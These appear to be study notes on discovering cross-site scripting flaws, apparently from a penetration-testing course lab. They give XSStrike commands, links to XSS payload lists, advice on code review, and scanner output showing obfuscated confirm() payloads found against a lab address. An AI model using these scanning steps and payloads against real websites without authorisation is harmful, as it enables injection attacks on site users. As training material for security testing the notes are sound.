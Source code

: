 # XSS Discovery

## Automated Discovery

Nessus, Burp Pro, or ZAP

Passive Scan : reviews client-side code for potential DOM-based vulnerabilities
Active Scan : sends various types of payloads to attempt to trigger an XSS through payload injection in the page source

Open-source tools that can assist us in XSS discovery are XSS Strike, Brute XSS, and XSSe

git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py

python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 

        XSStrike v3.1.4

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: task 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <HtMl%09onPoIntERENTER+=+confirm()> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N]

## Manual Discovery

Identifying advanced XSS vulnerabilities requires advanced code review skills

XSS Payloads :
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md
https://github.com/payloadbox/xss-payload-list

Note: XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).

## Code Review

The most reliable method of detecting XSS vulnerabilities is manual code review, which should cover both back-end and front-end code.

POST parameters :

python xsstrike.py -u "http://example.com/search.php" --data "q=query"


## LAB

git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py

python xsstrike.py -u "http://94.237.56.188:41843/?fullname=test&username=test&password=test&email=test%40aaj.com"

	XSStrike v3.1.5

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: fullname 
[-] No reflection found 
[!] Testing parameter: username 
[-] No reflection found 
[!] Testing parameter: password 
[-] No reflection found 
[!] Testing parameter: email 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <d3V%09ONPOIntEreNtEr%0a=%0aconfirm()>v3dm0s 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] 
